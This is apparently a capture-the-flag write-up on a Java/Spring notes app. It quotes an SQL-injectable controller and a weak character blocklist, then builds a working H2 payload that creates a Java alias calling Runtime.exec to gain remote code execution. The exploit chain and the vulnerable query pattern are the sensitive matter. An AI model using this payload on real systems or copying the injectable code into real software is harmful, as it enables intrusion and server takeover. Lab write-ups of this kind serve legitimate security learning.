









## Initial

When visiting web app we have firstly to register in order to access application.



We're given note web app, we cannot make new notes or something like that.



So let's dig into source code.

## Source Code Analysis

Web app is written in Java+Spring.



Here we have 2 controllers, ***NotesController*** REST API, ***MainController*** for user authentication and session management. ***PentestNotesApplication*** main class for running app.

### NotesController

Since ***MainController*** and ***PentestNotesApplication*** don't have anything interesting, let's get into ***NotesController***.

```java
@RestController
@RequestMapping("/api")
public class NotesController {
    @Autowired
    private EntityManager entityManager;
    @GetMapping("/notes")
    public ResponseEntity < ? > notes(HttpSession httpSession) {
        if (httpSession.getAttribute("username") == null) {
            return ResponseEntity.status(HttpStatus.UNAUTHORIZED).body("unauthorized");
        }
        String query = "Select * from notes";
        List < Object[] > resultList = entityManager.createNativeQuery(query).getResultList();
        List < Map < String, Object >> result = new ArrayList < > ();
        for (Object[] row: resultList) {
            Map < String, Object > rowMap = new HashMap < > ();
            rowMap.put("ID", row[0]);
            rowMap.put("Note", row[1]);
            rowMap.put("Content", row[2]);
            result.add(rowMap);
        }
        return ResponseEntity.ok(result);
    }
```

This api endpoint is used in main web page to pull all notes from db and display it on, but nothing much else.

```java
    @PostMapping("/note")
    public ResponseEntity < ? > noteByName(@RequestParam String name, HttpSession httpSession) {
        if (httpSession.getAttribute("username") == null) {
            return ResponseEntity.status(HttpStatus.UNAUTHORIZED).body("unauthorized");
        }
        if (name.contains("$") || name.toLowerCase().contains("concat")) {
            return ResponseEntity.status(HttpStatus.FORBIDDEN).body("Bad character in name :)");
        }
        String query = String.format("Select * from notes where name ='%s' ", name);
        List < Object[] > resultList = entityManager.createNativeQuery(query).getResultList();
        List < Map < String, Object >> result = new ArrayList < > ();
        for (Object[] row: resultList) {
            Map < String, Object > rowMap = new HashMap < > ();
            rowMap.put("ID", row[0]);
            rowMap.put("Name", row[1]);
            rowMap.put("Note", row[2]);
            result.add(rowMap);
        }
        return ResponseEntity.ok(result);
    }
}
```

Here we go, finally something interesting. This api endpoint is used when you access into specific note, and it pulls all info from db (which is H2 if we look into `application.properties`) based on the provided `name` parameter, filtering notes by this name. It validates input in order to prevent SQL Injection by checking for `$` and `concat`, and then returns note details. Since we can control `name` parameter it seems that we can get SQLi really easy and bypass this checks.

**Reference:** [H2 SQL Database Website](https://www.h2database.com/html/main.html)

```html
<script>
    document.addEventListener('DOMContentLoaded', function () {
        const urlParams = new URLSearchParams(window.location.search);
        const nameParam = urlParams.get('name');

        if (nameParam) {
            const formData = new FormData();
            formData.append('name', nameParam);

            fetch('/api/note', {
                method: 'POST',
                body: formData
            })
                .then(response => {
                    if (!response.ok) {
                        throw new Error('Network response was not ok');
                    }
                    return response.json(); // Parse response as JSON
                })
                .then(data => {
                    const checklist = document.getElementById('checklist');
                    checklist.innerHTML = ''; // Clear previous content

                    if (data.length === 0) {
                        checklist.innerHTML = '<p>No checklist items available.</p>';
                    } else {
                        data.forEach(item => {
                            const checklistItem = document.createElement('div');
                            checklistItem.classList.add('checklist__item');

                            const itemTitle = document.createElement('div');
                            itemTitle.classList.add('checklist__item-title');
                            itemTitle.textContent = `ID: ${item.ID}`;

                            const itemContent = document.createElement('div');
                            itemContent.innerHTML = `Name: ${item.Name}<br>Note: ${item.Note}`; // Use innerHTML for line break

                            checklistItem.appendChild(itemTitle);
                            checklistItem.appendChild(itemContent);

                            checklist.appendChild(checklistItem);
                        });
                    }
                })
                .catch(error => {
                    console.error('Error fetching note data:', error);
                });
        } else {
            console.error('No "name" parameter found in the URL.');
        }
    });
</script>
```

Here is part of the front-end code where we can see that this api is called when we want to access specific note.

So we can start our exploitation journey.

## Exploitation

### Triggering SQL Injection

Firstly, we will intercept request when we are accessing specific note.



It looks like this, just forward this request and front-end will make api request itself which we will intercept.



This is request we need. Here we can see `name` parameter which is used in SQL query on back-end we discussed before.

Let's make some basic testing! We will send `something; OR 1=1` to see what will happen.


Yay! We confirmed SQLi vulnerability.

But wait... I think we can esacalate this to RCE. Now how can we execute shell commands inside `H2` database.

### Escalating to RCE



I started to read `H2` documentation and stumbled upon here. This means that we can execute Java functions along with SQL query. That is what we need!

Now, we can make string function which will execute shell command since we have Runtime class built-in which we can use for executing shell commands.

```java
import java.io.IOException;

public class Main {

    public static void main(String[] args) throws IOException {
        System.out.println(rce());
    }

    static String rce() throws java.io.IOException{
        java.util.Scanner cmd_output = new java.util.Scanner(Runtime.getRuntime().exec("ls -la").getInputStream()).useDelimiter("\\A");

        return cmd_output.hasNext() ? cmd_output.next() : "";
    }
}
```
Here is the breakdown of our rce java function:

* Declaring a function `rce()` that returns a `String` and throws `IOException` due to `.exec()`.
* Running `ls -la` (for example) using `Runtime.getRuntime().exec()`.
* Setting up a `Scanner` to read the `InputStream` from the command.
* Using `\\A` as a delimiter to capture all output at once.
* Returning the output if available, or an empty string if not.

We'll need only our `rce()` function, this is just example to test around our function on local machine.

### Assembling together

It's time to build entire SQL query for getting rce!

Based on `H2` documentation we can make an alias with provided Java function and then `note` field of e.g. note `id=1` update with our command output.

```sql
something' OR 1=1; DROP ALIAS IF EXISTS exec_cmd; CREATE ALIAS exec_cmd AS 'String rce() throws java.io.IOException {
    java.util.Scanner cmd_output = new java.util.Scanner(Runtime.getRuntime().exec("id").getInputStream()).useDelimiter("\\\\A");
    return cmd_output.hasNext() ? cmd_output.next() : "";
}'; UPDATE notes SET note = exec_cmd() WHERE id = 1; --
```

At the beggining of the SQL query, we check if alias exists, and if it does we delete it. This approach allows us to reuse the alias name in our payload without needing to change it each time. Since we don't use `concat` or `$` in  sql query/payload, this means that bypassing checks i prevously mentioned in source code analysis is successfull!



Sending payload was sucessfull, now we have to check if the note is updated on the web app.



Hell yeahh, we have RCE!

## Final Toughts

It is easy challenge, but i found it interesting to make a writeup on since not many people around me know about H2 db, and it was interesting to write some custom code in order to get RCE. I know that the writeup is lenghty xD, but i just wanted to cover all steps clearly.